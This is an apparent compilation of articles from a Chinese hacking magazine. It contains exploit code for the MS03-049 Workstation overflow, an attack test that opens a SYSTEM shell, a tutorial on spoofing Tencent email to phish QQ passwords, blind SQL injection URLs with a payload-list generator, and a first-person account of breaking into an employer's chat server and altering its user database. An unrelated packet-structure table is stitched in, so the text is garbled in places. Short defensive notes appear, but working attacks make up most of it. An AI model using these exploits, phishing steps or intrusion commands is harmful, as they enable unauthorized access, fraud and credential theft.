> 注意：10月15日，MS03-043（828035）安全公告中发布的Windows XP安全更新中包含了用于防范该漏洞的一部分缓冲区溢出漏洞，因此如果已经应用了那个安全更新的话就无须再应用这个补丁。但是，本公告中的Windows 2000安全更新不是MS03-043（828035）中的安全更新。即使已经应用了那个安全更新，也必须应用本公告中的补丁。

不受影响系统：

- Microsoft Windows NT Workstation 4.0，Service Pack 6a
- Microsoft Windows NT Server 4.0，Service Pack 6a
- Microsoft Windows NT Server 4.0, Terminal Server Edition，Service Pack 6
- Microsoft Windows Millennium Edition
- Microsoft Windows XP 64-Bit Edition Version 2003
- Microsoft Windows Server 2003
- Microsoft Windows Server 2003 64-Bit Edition

漏洞危害：远程执行代码

严重程度：紧急

漏洞描述：Windows Workstation服务中存在一个严重的缓冲区溢出漏洞，可能允许远程攻击者在受影响系统中远程执行代码。如果成功利用的话，攻击者可以在受影响系统中获得“系统”权限，或导致Workstation服务失效。攻击者可以在系统中采取任何行为，包括安装程序、浏览数据、更改数据、删除数据，或以完全权限创建新帐户。

### 二、代码分析

在网上拿到了sbaa的溢出代码0.2版本，现在我们来简单看看这个代码是什么意思吧！

```c
#include <windows.h>   // Windows必须
#include <lm.h>        // 自定义.h
#include <stdio.h>     // 通用io.h
#include <string.h>    // c++.string.h标准文件

typedef
// NET_API_STATUS NET_API_FUNCTION
(MYPROC)(
    IN LPCWSTR Server OPTIONAL,
    IN LPCWSTR AlternateName,
    IN LPCWSTR DomainAccount OPTIONAL,
    IN LPCWSTR DomainAccountPassword OPTIONAL,
    IN ULONG Reserved
);

#define SIZE 8192
#pragma comment(lib, "mpr.lib")
#pragma comment(lib, "WS2_32.lib")

unsigned char shellcode[] =
"\xEB\x10\x5A\x4A\x33......\x4D\xAF\x1B";

int main(int argc,char ** argv)
{
    int ret=0;
    HINSTANCE hInstance;
    MYPROC procAddress=NULL;
    unsigned char szBuffer[SIZE];
    NETRESOURCE netResource;
    int i=0,j;
    unsigned char temp;
    char host[30];
    LPSTR hostipc[40];
    LPWSTR hostll[60];
    if(argc<2) {
        printf("Windows Workstation ms03-049 wkssvc.dll buffer overflow...\n");
        printf("bug discovered by eEye,code by Hanabishi,shellcode by oc.192\n");
        printf("Modified by sbaa(sbaa@163.net) 2003/11/16 ver 0.2\n");
        printf("Usage:\n");
        printf("On 2k : \n");
        printf("%s IP -> attack 2k without ntfs\n");
        printf("On xp : \n");
        printf("%s IP 2k => attack 2k without ntfs\n");
        printf("%s IP -> attack xp \n");
        printf("Next, open another window ... nc Ip 1234 --> Get cmd shell! @@\n",argv[0],argv[0],argv[0]);
        return 0;
    }

    sprintf(host,"\\\\%s", argv[1]);
```

## 附录

```c
sprintf((char *)hostipc, "%s\\ipc$", host);
netResource.lpLocalName = NULL;
netResource.lpProvider = NULL;
netResource.dwType = RESOURCETYPE_ANY;
netResource.lpRemoteName = (char *)hostipc; // ...

// 发送与错误的处理
ret = WNetAddConnection2(&netResource, "", "", 0);
if (ret != 0)
{
    fprintf(stderr, "Can't create null session ! \n");
    // return 1;
}

hInstance = LoadLibrary("netapi32"); // 载入 netapi32.dll 标准 netapi
if (hInstance == NULL)
{
    fprintf(stderr, "LoadLibrary failed\n");
    return 1; // 没有载入提示
}
if (((argc>2) && (strcmp(argv[2], "2k")!=0)) || (argc==2))
    procAddress = (MYPROC)GetProcAddress(hInstance, "NetAddAlternateComputerName"); // 载入函数

memset(szBuffer, 0x41, SIZE); // 定义包结构、方式、形参
if (procAddress == NULL)
{
    fprintf(stderr, "can't find NetAddAlternateComputerName (Now try to attack 2k)\n");
    // return 1; // 没有找到提示
    procAddress = (MYPROC)GetProcAddress(hInstance, "NetValidateName"); // 模糊处理
    if (procAddress == NULL)
    {
        fprintf(stderr, "can't find NetValidateName!\n");
        return 1; // 接口错误
    }

    memcpy(szBuffer, shellcode, sizeof(shellcode) - 1);
    // 提交接口
    memcpy(szBuffer+1851, "\x1b\x4a\xfa\x7f", 4); // 具体修改
    memcpy(szBuffer+2017, "\x1b\x4a\xfa\x7f", 4);
    szBuffer[2048]=0; // 大小值
}
else
{
    for(j=0;j<SIZE/2;j++){
        szBuffer[j*2]=0x41;
        szBuffer[j*2+1]=0;
    }
    memcpy((szBuffer+2044*2), "\x21\x00\x45\x00\xfa\x00\x7f\x00", 8); // 提交处理
    for(j=0;j<sizeof(shellcode);j++){
        temp=shellcode[j]; // 建临时内容处理 szBuffer
        szBuffer[2064*2+j*2]=shellcode[j];
        szBuffer[2064*2+j*2+1]=0;
    }
    szBuffer[SIZE-1]=0;

    memset(host1, 0, sizeof(host1));
    MultiByteToWideChar(CP_ACP, NULL, host, -1, (unsigned short*)host1, 60);
    try {
        ret = (procAddress)((LPCWSTR)host1, (LPCWSTR)szBuffer, NULL, NULL, 0);
    }
    catch(...) {
    }

    printf("%d\n", ret);
    WNetCancelConnection2(netResource.lpRemoteName, 0, TRUE);
    FreeLibrary(hInstance); // 动态载入
    return 0;
}
```

### 三、攻击测试

看过源代码后大家都应该有点了解了。现在我们就来测试一下这个漏洞吧。先确定攻击目标。因为该漏洞需要使用 IPC$ 连接，所以必须是 139 和 445 都开放的主机才符合要求，并且目标的分区方式不能是 NTFS 的（XP 不限制分区格式）。扫描一下目标主机的端口，发现 139、445 均开放，太好了，符合我的条件。（图1）


图1

下面开始准备攻击了。先看看程序的帮助。

```text
C:\>MS03049
Windows Workstation ms03-049 wkssvc.dll buffer overflow
bug discovered by eEye; code by Hanabishi; shellcode by oc-192
Modified by: sbaa(sbaa@163.net) 2003/11/16 ver: 0.2

Usage:
On 2k:
MS03049 IP ---> attack 2k without ntfs
On xp:
MS03049 IP 2k ---> attack 2k without ntfs
MS03049 IP ---> attack xp
```

```text
Next open another window : nc Ip:1234 --> Get cmd:shell @.@
```

可以看到，用法很简单，直接 MS03049 IP 就可以了。现在我们可以开始攻击测试了。打开一个 CMD 方式的窗口，然后输入：

```
MS03049 XXX.XXX.68.46
```

窗口出现提示：

```
can't find NetAddAlternateComputerName (Now try to attack 2k!)
```

停住了，难道有问题？（图2）


不是！现在我们再来开一个 CMD 窗口，并在里面 TELNET 目标 IP 的 1234 端口，成功。输入 NET SHARE 查看一下权限，看来是 SYSTEM 的权限（图3）


马上添加超级用户，然后映射驱动器，下载我需要的资料哦！

在测试中发现有几个错误代码经常出现，这里给大家解释一下。这都是我通过大量测试发现的，所以只能算个人理解了，不正确的还望大家指出。

错误代码 1722：对方 139 端口没有开放或目标不在线，连接失败。

错误代码 87：对方 445 端口没有开放，攻击失败。

### 四、攻击防范

这个漏洞的防范也很简单，微软也给出了解决方案。

- 在防火墙上过滤 UDP 138、139、445 端口和 TCP 138、139、445 端口。
- 使用个人防火墙过滤进入的流量，比如 Windows XP 捆绑的 Internet 连接防火墙。
- 在 Windows 2000 和 Windows XP 自带的高级 TCP/IP 过滤。
- 禁用 Workstation 服务。

> 注意：停用此服务将导致很多依赖它的服务失效，例如您将不能访问共享资源，不能使用拨号、xDS、Cable Modem 连接等等。仅推荐有经验的用户使用此方法。

## 厂商补丁

微软已经提供了安全补丁以修复此安全漏洞，我们建议您使用 Windows 系统自带的 “Windows Update” 功能下载最新补丁。您也可以通过微软的安全公告选择并安装针对您所用系统的安全补丁：

- Microsoft Windows 2000:  
  http://www.microsoft.com/downloads/details.aspx?FamilyId=2467FE46-D167-479C-9638-D4D79483F261&displaylang=en
- Microsoft Windows XP:  
  http://www.microsoft.com/downloads/details.aspx?FamilyId=F02DA309-4B0A-4438-A0B9-5B6744C3833&displaylang=en
- Microsoft Windows XP:  
  http://www.microsoft.com/downloads/details.aspx?FamilyId=2BE95254-4C65-4CA5-80A5-55FDF5AA2296&displaylang=en

希望各位朋友看了这篇文章之后赶快去打补丁哦，没准又会有人利用漏洞再搞个什么冲击波 2，你就完蛋了，呵呵。

## E-MAIL 欺骗攻击过程浅谈

我们经常会收到这样的手机短信：恭喜你中了 xx 公司大奖，奖品为万元 NEC 笔记本电脑一部，中奖查询电话 xxxxxxx。如果我们顺着这部电话打过去，便有一位声音甜甜的小姐百般热情地回应你：你确实百分百中了我公司大奖，只请汇来邮寄奖品的邮费 N 元，笔记本电脑就指日可待了。当然，这是一个骗局，如果你真的汇去了邮费，那可是肉包子打狗，有去无回了。

黑客的入侵技巧中，欺骗也是一个重要的手段，而且黑客的手法远比生活中的骗局来得隐蔽、巧妙和阴险。像我准备开始进行一次 E-MAIL 欺骗，冒充腾讯公司总裁给部分 QQ 用户群发一份邮件，声明腾讯公司正在进行随机有奖抽查，只需将你的 QQ 号码和密码在一个表格内填好，你将有机会获得一个 6 位靓号 QQ。当然，只要接收到邮件的用户如果真的如实填写了这份表格的话，他的 QQ 号码和密码将会被我收集。

要实行这样一个骗局，我最少要做到三点才可能成功。第一，因为要发邮件，所以我需要一个 SMTP 服务器用于邮寄我的欺诈信。这个 SMTP 服务器最好不要有身份验证，也不能是网上申请的免费或收费的 SMTP 服务器，因为这样的服务器往往会在你发出的邮件结尾带上它的网站广告，很容易引人怀疑你发出的邮件是否为腾讯公司所发。第二，我要做到让接收人看到我发出的邮件的确是腾讯公司所发，邮件发出人是腾讯公司总裁，邮件地址是类似 admin@tencent.com 这样的邮箱格式。第三，我要写一个 ASP 或 PHP 的后台脚本放在某一个空间上，用于接收被骗人填写的数据。

用户填写的前台表格数据，当然这个表格页面我也要尽量做到让用户相信这是腾讯公司所制。好了，我们开干吧。

满足第一点要求，构造自己的 SMTP 服务器。我们并不需要安装额外的邮件服务器，Windows XP 和 2000 本身就拥有构建 SMTP 服务器的功能，只是可能有的人还没有安装。选择“控制面板→添加/删除程序→添加/删除 Windows 组件”，弹出“Windows 组件向导”对话框，在其中双击“Internet 信息服务 (IIS)”项，就会打开详细选择窗口，选择“SMTP、NNTP Service”，按“确定”，插入 Win2000 安装盘进行安装（如图1）。安装好 SMTP 服务器后，依次选择“开始菜单→程序→Internet 服务管理器”打开 Internet 信息服务设置窗口，在窗口左侧点击本地计算机名，展开本地计算机目录，可以看到有两个分支：“Web 站点”和“默认 SMTP 虚拟服务器”。在“默认 SMTP 虚拟服务器”上点击鼠标右键选择“属性”，打开“默认 SMTP 虚拟服务器属性”窗口。


“常规”选项卡主要设置 IP 地址，单击 IP 地址下拉项选择你机器的 IP 地址，像我的机器设为 192.168.1.3，你的机器可能是“127.0.0.1”，表示指向本地计算机 IP 地址，其他项使用默认即可。如果你是局域网接入，拥有固定 IP 地址，那么 IP 地址就应该选择相应的地址（如图2）。


“访问”选项卡中设置访问权限。单击“身份验证”，选择“匿名访问”，表示任何用户都可以发送，其他两项不用选择（如图3）。单击“连接控制”中的“连接”和“中继限制”中的“中继”，选中“仅以下列表除外”，表示可以允许所有用户的访问。（如图4、图5）

只要我们设置好了“默认 SMTP 虚拟服务器属性”的“常规”和“访问”这两个选项卡，我们的 SMTP 服务器就基本构建成功了，其他的选项卡用默认就可以了；我们现在已经能用自己的机器发信了。动手进行第二步吧。

满足第二点要求，伪造腾讯公司的发信人和发信地址：我用的是 Outlook Express。依次点击工具→账户→添加→邮件，在出现的 Internet 连接向导中，我写入的是“腾讯公司总裁马化腾”（如图6）。当然这里你要想冒充腾讯公司哪位人士就填上谁的名字好了。来到下一步，写入一个假的邮件地址，我伪造的是 admin@tencent.com（如图7）。再来到关键下一步，在邮件接收器中随便写一个邮件接收地址，像 pop3.163.net，不过注意的是，要在邮件发送服务器中填写好我们先前设置好的 SMTP 服务器地址，像我机器是 192.168.1.3。（如图8）。剩下的最后一步，仍旧可以跳过了，反正无关大局。邮件账户设置一切就绪后，我再用 Outlook Express 给我的两个邮箱 lcx110@183.ha.cn 和 lcx110@163.net 写同样的一封信吧（如图9）。写完后我们开始发送这两封邮件，一瞬间邮件就发送成功了，自己构造的这个 SMTP 服务器还真比网上的拨号 SMTP 服务器速度快很多。此时，我去 lcx110@183.ha.cn 收取我的信件，看到了这样的一封邮件（如图10），图10中的邮件发送人正是腾讯公司总裁马化腾 admin@tencent.com！这是不是很具备欺骗性呢？这里我也顺便给大家说一下如何识破真正的发信人地址，我用 Outlook Express 将我的 lcx110@163.net 里的同样一封信收在本地电脑，在收到的信件上点鼠标右键→查看信件属性→详细资料，你会看到这样的首行：Received: from rich (unknown [218.59.97.87])，这个 IP 地址正是我发信时机器在 Internet 上的 IP 地址（如图11）。这个 IP 地址是不是腾讯公司的，那就是一目了然的事情了。


图6


图7


图8


图9


图10


图11


图12

满足第三点要求，编写后台脚本来接收用户输入表单。我这里做了一个前台的输入表单页面 reg.htm，就用前边提到的发邮件方法以附件格式群发出去。如果邮件接收人打开的话，将看到图12所示的页面。当然，要如何更大地获取邮件接收人的信任，要看你做网页的水平和为人的狡黠程度了。本人忠厚老实，也只能做出这样的水平。不过我用一个 JS 小脚本，可以在这个 reg.htm 显示腾讯网站的 20 个 QQ 秀形象，以便增加这个表单的可信度。这个 JS 脚本很简单，源码如下：

```html
<script>
function writ(x,xx)
{
    for (img=1;img<=x;img++)
    {
        document.writeln(" </IMG>");
        if (img%5==0) document.writeln("<br>");
    }
}

for (num=20;num<=20;num++)
{
    if (num==20) writ(20,num)
    document.writeln("<br>")
}
</script>
```

你只要将最后一个 20 改为其他的数字，就可以显示不同数量的 QQ 秀形象了。这个 reg.htm 我作为附件发送给了用户，接收数据的 save.asp 却放在我网站的一个 ASP 空间上。只要用户如实填写了图12的表格，save.asp 就会将数据接收后放在我的 ASP 空间的 lcx.txt 里。懂 ASP 脚本的朋友都明白，因为在 reg.htm 的源码里我指定了接收表单的地址：action="http://我的asp空间地址/save.asp"。而且我在 save.asp 也做了手脚，这个脚本接收完用户发送的数据后，会自动跳转到腾讯公司的网站 www.tencent.com，避免引发用户的怀疑（附上 reg.htm 和 save.asp 两个文件以供大家研究）。

看完了这样一个 E-mail 欺骗攻击，你可能会觉得不屑，心想就算是被骗，也只不过掉了一个垃圾 QQ 而已。但是你想到了没有，虽然全文我用的是如何骗 QQ 来举例，但是黑客完全可以利用同样的手法来骗走你网站的 FTP 密码，再来黑掉你的网站。啊啊，这就不是小事情了吧。总之，收到奇怪的邮件的话，还是小心为妙。

## 巧用 X-SCAN 竟成功刷下软的祖坟

由于 SQL 注射原理以及手法的文章比较多，所以我这里对 SQL 注射的原理只是简单提及，至于为什么、怎么样，不在本文讨论范围内。

国庆期间朋友搭建了一个提供软件下载的网站，要我帮忙测试一下安全性。从他口里了解到网站暂时搭建在学校某系的主机上，测试一下，如果运行良好的话可以作为一个模块插入他们系的主页上，随后还得知主机是打了 SP4 补丁的 WIN2K Server。看来那些大的远程溢出漏洞不会存在了。

回去用 nmap 扫描一下，只开了 80 端口，经过简单判断是 WIN2K+IIS5.0 的。随便看了看网站，网站功能上只提供下载，连个什么论坛都没有。下载页面还没做好，注意到他提供下载“动网下载系统豪华版<ASP-Access 版>”，下载地址指向动网的官方站。看到这里，心里有个底了：朋友很可能是在网上下载的一个免费下载系统。动网论坛漏洞可不少，还有看到一些文章是关于动网文章系统漏洞的，实现机理是 SQL 注射。不知道动网下载系统是否也是有这个毛病。先顺着他的链接去下载一包源代码再看看，攻击者有了源代码，就好像盲人手中多了根拐杖，会方便很多。

事实也确实如此：通过对这个 ASP 系统的简单浏览，很快就确定了管理员登录口在 /admin/admin.asp，对整个下载系统的结构、核心文件也有了一个大概了解，数据库放在第一级目录，名称是 download.asp，可以改后缀为 MDB，用 Access 2000 打开编辑。本来想试着直接 download 数据库文件的，不过失败了。想必朋友已经做了相应修改。其实动网下载系统很小巧，第一级目录总共就二十来个文件，有一个 list.asp 特别慧眼。以往注射其他站点文章系统的时候一般都是在 show.asp?id=xx 提交一些特殊请求，这种文件也较容易出问题。看了代码注意到这些内容：

```vb
if request("id")="" then
    response.write "您没有选择相关软件，请返回"
    response.end
end if

set rs=server.createobject("adodb.recordset")
sql="select Dclass.class,DNclass.Nclass,download.showname,download.classid,download.Nclassid,download.lasthits from download,Dclass,DNclass where download.classid=Dclass.classid and download.Nclassid=DNclass.Nclassid and download.ID="&request("id")
rs.open sql,conn,1,1
```

可以看到，对于提交的“ID”，只是简单地考虑了提交空格的可能性，其他字符都没有过滤，查询语句可以简单写成：

`select * from download where id="&request("id")`

这样就好办多了，我们就可以通过这句语句查询数据库的一些敏感内容。

既然知道了是采用的 ACCESS 数据库，现在确认一下能否注射：

- 分别提交

## 黑客X档案2002—2003年合订本

## 附录

```text
http://218.199.XX.XX/list.asp?id=7 and 1=1
网页显示正常

http://218.199.XX.XX/list.asp?id=7 and 1=2
返回错误信息：

本页无法显示

您试图访问的网页出现问题，无法显示。
请尝试以下方法：
单击“刷新”按钮或者稍候再试。
打开 218.199.XX.XX 主页，然后查找与所需信息相关的链接。

HTTP 500-100——内部服务器错误——ASP 错误
Internet 信息服务
```

这样证实了这里是可以注射的。

先把源代码包中 download.asp 改名为 download.mdb，用 Access 数据库打开。

可以看到 ADMIN 表在第一位，里面有 4 项字段：ID、USERNAME、PASSWORD、FLAG。这样，我们就比较清楚地了解到了这个系统的数据结构。

直接提交：

```text
http://218.199.87.93/list.asp?id=7 and 1=(select min(id) from admin)
http://218.199.87.93/list.asp?id=7 and 1=(select min(id) from admin where len(username)>1)
http://218.199.87.93/list.asp?id=7 and 1=(select min(id) from admin where len(password)>1)
```

3 个页面都显示正常，证明在主机的数据库里面存在 ADMIN 表，有字段 USERNAME 和 PASSWORD，接下来就是对用户名和密码的长度猜测了：

```text
http://218.199.87.93/list.asp?id=7 and 1=(select min(id) from admin where len(username)=6)
http://218.199.87.93/list.asp?id=7 and 1=(select min(id) from admin where len(password)=8)
```

都返回了正确信息。

如果猜测错误，仍然会获取到错误信息：“HTTP 500.100 - 内部服务器错误”，猜正确就能返回下载页面。

最麻烦的时候到了，大家都会遇到的，猜解用户名和密码。由于现在的管理界普遍安全意识还算高，所以在选择用户名和密码的时候，什么特殊字符都能想到。

可是当我们用语句 `(select min(id) from admin where left(password,1)='#')` 提交的时候，IE 会自动过滤掉这些特殊字符，于是就有人想到利用 `(select min(id) from admin where asc(mid(username,1,1))>1)` 语句直接猜测字符的 ASCII 码。

可是手工猜测实在太麻烦了，有些组织写了专门的程序来猜测，但易用性并不让人满意，别人使用的时候在某些变量上并不能理解作者原意。

其实利用动网下载系统的错误返回页面，我们完全可以让 X-SCAN 来帮我们完成抽丝剥茧的猜解过程。实现思想很简单，我们可以把注射语句理解成一种 CGI 漏洞，好像 Unicode 漏洞：`/scripts/..\..\..\..\..\winnt/system32/cmd.exe?/c+dir`

当某个字符猜测正确的时候，主机就能返回正常页面，否则返回错误信息。

扫描器判断 CGI 漏洞是否存在的依据，就是主机返回的这个值。

这个过程可以用 NC 观察：

```text
C:\>nc xx.xx.xx.xx 80
head /default.asp HTTP/1.0
HTTP/1.1 404 Object Not Found
Server: Microsoft-IIS/5.0
Date: Mon, 06 Oct 2003 17:32:14 GMT
Content-Type: text/html
Content-Length: 111
```

主机返回 404 数值：没找到 default.asp 这个文件。类似的返回 500.100 代表“内部服务器错误”。

再看看下面的例子：

```text
C:\>nc 202.114.XX.XX 80
HEAD /index.htm HTTP/1.0
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Date: Mon, 06 Oct 2003 19:12:07 GMT
Content-Type: text/html
Accept-Ranges: bytes
Last-Modified: Sat, 26 Jul 2003 08:04:15 GMT
ETag: "40bfe4814c53c31:9f0"
Content-Length: 15801
```

返回 HTTP 报头值 200，代表找到 index.htm 文件。

如果你想了解更详细的内容，可以在 RFC 2616 找到 HTTP 1.1 规范，HTTP 1.0 规范可以在 RFC 1945 找到。

了解到了这些基础知识，我们现在来看 CGI 扫描器是如何工作的：

下面的代码选自一个开源扫描器的定义部分：

```c
char *string_head="HEAD / HTTP/1.0\n\n";
char *search_head_B="<TITLE>";
char *search_head_E="</TITLE>";
char *Dont_Display1="Test Page for";
char *Dont_Display2="Authorization Required";
char *search_E="HTTP/1.1 200";
char *tmpStr;
```

上面的 `char *search_E = "HTTP/1.1 200";` 就很好地定义了扫描器的扫描范围。当提交 URL 的时候，一旦主机返回结果是 HTTP/1.0 200，则将结果记下，证明存在此 CGI 漏洞。

虽然 X-SCAN 没有开放源代码，可是我们仍然可以猜测到 X-SCAN 对 CGI 漏洞的判断方式和这里的判断方法一样。

假设密码第一位是 a，当我们提交 `(select min(id) from admin where asc(mid(username,1,1))=97)` 的时候，服务器返回 200 值；如果 97 换成其他数字，则返回其他错误信息，一般是返回 500.100 值：ASP 错误。

好了，既然理解了这个原理，我们就可以写一个小程序，让它帮我们写出一份有价值的 CGI 漏洞列表，可以猜测出用户名和密码。

代码如下：

```c
#include <stdio.h>
main()
{
    int ch;
    printf("just a small program code by CIELOph4nt0m.net\n");
    printf("1：作 CGI 列表，2：转换 ASCII");
    scanf("%d", &ch);
    switch(ch)
    {
        case 1: cgi();
            break;
        case 2: change();
            break;
        default: printf("input error");
    }
}

change()
{
    int as;
    do {
        printf("please input the Number and enter 8888 to esc:");
        scanf("%d", &as);
        printf("%d just as %c\n", as, as);
    } while (as != 8888);
}

cgi()
{
    FILE *fp;
    char url[80], url1[20], table[15];
    int asc[68] = {33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,
    51,52,53,54,55,56,57,58,59,60,61,62,63,64,91,92,93,94,95,96,97,98,99,
    100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,
    118,119,120,121,122,123,124,125,126};
    int i, n, m, a;
    fp = fopen("cgi.lst", "w");
    gets(url1);
    printf("please enter the url:");
    gets(url);
    printf("please enter the table:");
    gets(table);
    printf("please enter the length:");
    scanf("%d", &n);
    printf("please enter the ID:");
    scanf("%d", &i);
    for(m=1; m<=n; m++)
        for(a=0; a<=67; a++)
            fprintf(fp, "%%s%%sand%%s%%d=(select%%smin(id)%%sfrom%%sadmin%%swhere%%sasc(mid(%%s,%%d,1))=%%d)\n", url, "%20", "%20", i, "%20", "%20", "%20", "%20", table, m, asc[a]);
    fclose(fp);
}
```

其实当我们提交 `1=(select min(id) from admin)` 的时候，URL 会自动把空格转 `%20`，所以提交 `1=(select min(id) from admin)` 和 `1=(select%20min(id)%20from%20admin)` 是一个效果。可是如果让 X-SCAN 只读取 CGI 漏洞的时候，它会从空格处分开，把前后语句当作分开的 2 个 CGI 漏洞。待猜测的用户名和密码的 ASCII 码就在 ASCII 数组里面了，汉字太多，没有考虑进去。如果你不怕麻烦，可以把一些汉字也存进去，这样 X-SCAN 还能完成对中文名的猜测，听起来很美好吧？呵呵，实际操作还是比较麻烦的。

这里的例子是：

```text
URL: /list.asp?id=7
TABLE: USERNAME
LENGTH: 6
ID: 1
```

填好后会生成 CGI.LST 文件，把这个文件替换成 `/X-SCAN/DAT/CGI.LST`，当未添加 IIS-UNICODE 时，这样 X-SCAN 才能够辨识；或者插进 CGI.LST 就可以了。扫描的时候只要选择 IIS 漏洞，按下来就交给 X-SCAN 完成了。然后程序就会把所有字符一个个带进去扫描，一旦猜测正确，X-SCAN 就会当 CGI 漏洞报出来。稍微休息一下，回来就能看到结果了。

由于这里只采用的是 ASCII 码猜测，所以最后查阅 ASCII 表或者自己写一个小程序就可以实现字符数字的转换，而且必须在服务器支持 ASCII 的情况下才可以这么用。上面的小程序中就包含有 2 个功能，既可以生成 CGI 列表，也可以完成 ASCII 和数字的转换。这个程序是相当简单的，如果个人还有什么需要，可以自己扩充一下它的功能。这里给出的只是一个思路，抛砖引玉，大家还可以继续完善这种思路。

**如何避免：**

```text
关键在于 LIST.asp 文件过滤不严格：
if request("id")="" then response.write "您没有选择相关软件，请返回"
把这句替换成 if (not IsNumeric(id)) or (id="") then response.write "提交非法参数，无法读取" 就可以很好地避免攻击者的注射行为。
```

## 从人侵企业BQQ服务器找企业网安全

彩虹桥上客

目前，大型企业都建立了基于服务器／客户端的内部网络，通常都是由公司总部到省会分公司再到地级市分支机构，通过 DDN 专线、宽带 ADSL 或其它方式联成企业内部网络。一般情况下，各种网络服务器都放在省会分公司，有业务服务器、财务服务器、OA 服务器、文件传输服务器等。还有的企业为了更好地利用专线资源，还建立了即时通讯服务器，安装了腾讯公司的企业 QQ 通讯软件，这极大地方便了上下公司间、各部门间的业务通讯。

这些服务器分别都有固定的内部 IP 地址。其中，QQ 服务器的操作系统通常都采用 Windows 2000 Server 版。笔者所在的上级营销公司就是采用这种方式建立的 BQQ 服务器，我们支公司这一层只需安装客户端软件，然后上级公司网络管理员在服务器端给我们加上用户名号码就可以了。有问题时给相应部门的负责人发个信息，问题很快就解决了，还真挺方便，又省长途话费。开始时大家讨论的都是解决业务上的问题，渐渐地有几个家伙就开始跑偏了，乱发信息、乱建会议室，穷聊一个点儿。其中有一个 8888 的家伙，可能会的歌曲也多，发的信息全是流行的情歌的歌词，给我们的正常工作带来麻烦，招来大家的反感，都骂他是大变态。可人家一副“我是变态我怕谁”的无赖样儿，还照发不误。于是大家联名找网管，要求踢掉他。结果网管说，他是变态，大家别和他一般见识，忍忍吧。其实网管和大变态的个人关系很孬。怎么办？管理员不踢，那我们踢！咱们不仁了，干脆自己动手吧。正好看了许多黑文，攒了很多黑兵器，这回咱这个小菜鸟也利用这个机会实战一次。

首先，拿出黑兵器 X-SCAN 先扫它一下，在“基本设置”的“指定 IP 范围”填入 BQQ 服务器的 IP 地址，然后开始扫描。过一会儿扫描完成，详细的线程状态报告，如图 1：


图1

呵呵，好家伙，大家看到了吧，这个 BQQ 服务器可谓漏洞百出。我一面感谢老天有眼，一面心里埋怨那个粗心网管（其实我们关系也不错的），居然敢把带这么多漏洞的服务器挂到网络上。SQL-Server、FTP 两个都是空口令；NT Server 的管理员账户 administrator 居然还是弱口令 admin。好了，那还客气什么，上去瞧瞧吧。启动 CMD，输入如下命令，如图 2：

```text
net use \\10.11.10.200\ipc$ "admin" /user:"administrator"
net use g: \\10.11.10.200\c$ "admin" /user:"administrator"
```


图2

上面的两条命令比较简单，网络黑人都知道。第一条是建立 IPC$ 连接，第二条是映射网络驱动器，把服务器的 C: 盘映射成自己的 G: 盘，这样就可以像操作自己 F 盘的硬盘一样了。下面就是转接到 G: 盘，开始查找文件喽。一层一层目录地进入，最后在 `G:\Program Files\BQQServer\DB` 子目录下发现一个 `BQQ.mdb` 的数据库文件，如图 3。


图3

直觉告诉我，这可能就是存放 BQQ 用户信息的数据库，先 COPY 回来再说。输入下面的命令（斜体字是输入的命令）：

```text
G:\Program Files\BQQServer\DB>copy bqq.mdb c:\windows\desktop
```

稍后显示“已复制 1 个文件”，拷贝成功。启动 Access，打开 BQQ 数据库，如图 4：


图4

双击 Users 表，显示出 BQQ 的用户信息，包括用户号码、经过加密换算的登录密码、用户名、昵称等信息，如图 5：


图5

看见了吧，那个 8888，叫什么玫瑰情诀，牙疼不？等什么，下手吧！把 Fpassword 口令字段清空，把用户名、昵称改一个好听的，存盘，关闭 `bqq.mdb`，退出 Access。回到 CMD 命令窗口，在 G: 盘当前目录输入 `copy c:\windows\desktop\bqq.mdb .`，显示“已复制 1 个文件”后，说明文件上传成功。启动 BQQ，用户号码用 8888，登录口令为空，点登录，成功登录到服务器，赶紧修改口令，口令一变，下回这小子就该找不着北了。当然，最好不要用这个 8888，而直接从数据库中把这个记录删除，以免管理员通过检测 IP 的方法查出是谁在用 8888，而露了马脚。

这里笔者泄露点秘密。实际上，腾讯公司的 BQQ 存在一个严重的漏洞，就是在客户端的 BQQ 安装文件的用户号码文件夹下的用户配置文件中（如 `C:\Tencent\BQQ\6700\User.cfg`），隐藏着登录口令的明文密码！如图 6：


图6

所以，通过进入局域网内打开共享 C 盘的电脑，到对应的用户号码文件夹中，打开 `User.cfg` 文件，就可以轻易获取登录口令。

好了，现在已经把 8888 给删除了，很美是吧。可是知道了管理员帐号的密码，手又有点儿痒痒了，想看看 QQ 服务器里还装了什么东西，也想把自己 QQ 号码的权限设大一点。于是，拿出另一个黑兵器，酷蛇的 WIN2K 登录器 `3389DLQ.exe`。启动，填入 QQ 服务器的 IP，连接，稍等片刻就连上去了。出现“登录到 Windows”的界面，填上管理员帐号和密码，点“确定”，没等多久就成功登录到服务器的 Windows 桌面，根本没有网上形容的忍受者累死机一样烦躁的感觉，因为毕竟这是在系统内联企业网的专线上嘛。登录界面如图 7。

| UDP头部 | ISAKMP头部 | ISAKMP有效信息负载1 | ISAKMP有效信息负载2 | …… ISAKMP有效信息负载x |
|---|---|---|---|---|
|  |  |  |  |  |

| 对站Cookie(8bytes) |
|---|
| 响应Cookie(8bytes) |
| 下一负载 |
| 主类型 |
| 次类型版本号 |
| 交换类型 |
| 长度标志 |
| 信息ID号 |
| 信息字段长度 |

图七、ISAKMP 信息数据包结构

点“开始→程序→腾讯企业 QQ→BQQ 用户管理器”，先看一看 QQ 的用户信息吧，如图 8：


图8

在“全部用户”中找到 6700，呵呵，这就是敌人的号码。对准他点右键后，点“查看用户信息”，在“用户信息”窗口，点“权限设置”，把那几项全选上，点“修改”。这下子，管理员有的权限，咱也都有啦。如图 9：


图9

退出到桌面，再看看服务器里还有什么好东西，于是又到处转悠了一番，没有找到什么有用的东西。回到桌面，又打开“网上邻居”瞎逛。于是，双击“网上邻居→受验证的计算机”。呵呵，一堆带着非常眼熟的名字的计算机图标显示在窗口中。如图 10：


图10

哎呀，各部门主要人物的电脑都在里面哪。有人问了，你咋知道？唉，咱是内部人儿，上面的领导咱都熟，谁叫他们的计算机名字都是自己名字的汉语拼音呢！！有位大虾对我直瞪眼：哥们儿你要干什么？面对如此多的诱惑，你说我能干什么呢……我敲醒了一下头脑，觉得该收手了。为什么？要遵守那个黑客守则呀：一个呢，咱是内部人儿，又是优秀党员；好了，到此为止，擦擦 PP 走人吧，不然让网管逮着就没有好果子吃喽！

